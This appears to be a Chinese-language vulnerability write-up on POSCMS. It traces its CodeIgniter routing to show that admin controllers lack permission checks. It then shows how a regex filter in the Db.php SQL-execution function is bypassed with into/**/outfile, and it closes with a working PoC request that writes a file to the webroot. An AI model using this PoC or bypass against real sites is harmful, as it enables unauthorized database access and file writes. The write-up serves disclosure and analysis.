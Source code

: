 POSCMS 任意sql语句执行漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 任意API调用

**分析入口文件**

> index.php \-\--\>/diy/init.php
> \-\-\-\-\--\>/diy/system/core/CodeIgniter.php

程序使用的CodeIgniter（CI）框架，直接去看CI框架。

    $RTR =& load_class('Router', 'core', isset($routing) ? $routing : NULL);

初始化Router类，调用\_set\_routing()方法绑定路由。

    if ( ! isset($this->directory))
                        {
                                $_d = $this->config->item('directory_trigger');
                                $_d = isset($_GET[$_d]) ? trim($_GET[$_d], " \t\n\r\0\x0B/") : '';

                                if ($_d !== '')
                                {
                                        $this->uri->filter_uri($_d);
                                        $this->set_directory($_d);
                                }
                        }

                        $_c = trim($this->config->item('controller_trigger'));
                        if ( ! empty($_GET[$_c]))
                        {
                                $this->uri->filter_uri($_GET[$_c]);
                                $this->set_class($_GET[$_c]);

                                $_f = trim($this->config->item('function_trigger'));
                                if ( ! empty($_GET[$_f]))
                                {
                                        $this->uri->filter_uri($_GET[$_f]);
                                        $this->set_method($_GET[$_f]);
                                }

                                $this->uri->rsegments = array(
                                        1 => $this->class,
                                        2 => $this->method
                                );
                        }
                        else
                        {
                                $this->_set_default_controller();
                        }

> config

    $config['controller_trigger']                        = 'c';
    $config['function_trigger']                                = 'm';
    $config['directory_trigger']                        = 'd';

简述这里就是

    $this->class = $_GET[‘c’];
    $this->method = $_GET[‘m’];
    $this->directory = $_GET[‘d’];

回到CI框架，这里直接通过反射进行了调用。

    $e404 = FALSE;
    $class = ucfirst($RTR->class);
    $method = $RTR->method;

    if (empty($class) OR ! file_exists(APPPATH.'controllers/'.$RTR->directory.$class.'.php'))
    {
       $e404 = TRUE;
    }
    else
    {
       require_once(APPPATH.'controllers/'.$RTR->directory.$class.'.php');

       if ( ! class_exists($class, FALSE) OR $method[0] === '_' OR method_exists('CI_Controller', $method))
       {
         $e404 = TRUE;
       }
       elseif (method_exists($class, '_remap'))
       {
         $params = array($method, array_slice($URI->rsegments, 2));
         $method = '_remap';
       }
       elseif ( ! method_exists($class, $method))
       {
         $e404 = TRUE;
       }
       /**
        * DO NOT CHANGE THIS, NOTHING ELSE WORKS!
        *
        * - method_exists() returns true for non-public methods, which passes the previous elseif
        * - is_callable() returns false for PHP 4-style constructors, even if there's a __construct()
        * - method_exists($class, '__construct') won't work because CI_Controller::__construct() is inherited
        * - People will only complain if this doesn't work, even though it is documented that it shouldn't.
        *
        * ReflectionMethod::isConstructor() is the ONLY reliable check,
        * knowing which method will be executed as a constructor.
        */
       elseif ( ! is_callable(array($class, $method)) && strcasecmp($class, $method) === 0)
       {
         $reflection = new ReflectionMethod($class, $method);
         if ( ! $reflection->isPublic() OR $reflection->isConstructor())
         {
          $e404 = TRUE;
         }
       }
    }

> APPPATH.'controllers/ = /diy/dayrui/controllers/

然后我们就可以调用这里的Controller，关键点是在这里有个admin文件夹，里面包含了管理员可调用的功能点，而且他继承的基类（SuperClass）并没有检测用户权限。就导致任意调用这里的功能点。

### SQL语句执行（增删改查）

既然可以调用管理员才能调用的功能点，问题就太多了，这里就随便讲一个喽。

文件：/diy/dayrui/controllers/admin/Db.php 方法：sql

     public function sql() {
        $sql = '';
        $count = $id = 0;

        if (IS_POST) {
            $id = $this->input->post('id');
            $sql = str_replace('{dbprefix}', $this->db->dbprefix, $this->input->post('sql'));
            if (preg_match('/select(.*)into outfile(.*)/i', $sql)) {
                $this->admin_msg(fc_lang('存在非法select'));
            }
            $sql_data = explode(';SQL_FINECMS_EOL', trim(str_replace(array(PHP_EOL, chr(13), chr(10)), 'SQL_FINECMS_EOL', $sql)));
            if ($sql_data) {
                $db = $this->db;
                foreach($sql_data as $query){
                    if (!$query) {
                        continue;
                    }
                    $queries = explode('SQL_FINECMS_EOL', trim($query));
                    $ret = '';
                    foreach($queries as $query) {
                        $ret.= $query[0] == '#' || $query[0].$query[1] == '--' ? '' : $query;
                    }
                    if (!$ret) {
                        continue;
                    }
                    $db->query($ret);
                    $count++;
                }
                if ($count == 1 && stripos($ret, 'select') === 0) {
                    $this->template->assign(array(
                        'result' => $db->query($ret)->result_array(),
                    ));
                }
            }
        }

        $this->template->assign(array(
            'menu' => $this->get_menu_v3(array(
                fc_lang('执行SQL') => array('admin/db/sql', 'database')
            )),
            'id' => $id,
            'sql' => $sql,
            'mcount' => $count,
        ));
        $this->template->display('db_sql.html');
    }

这里使用正则表达式匹配危险字符into
outfile，绕过就太简单了。into/\*\*/outfile。

### poc

`https://www.0-sec.org/index.php?c=db&d=admin&m=sql Post sql=select 1 into/**/outfile 'C:\phpstudy_pro\WWW\www.0-sec.org\poscms\11111.txt'`
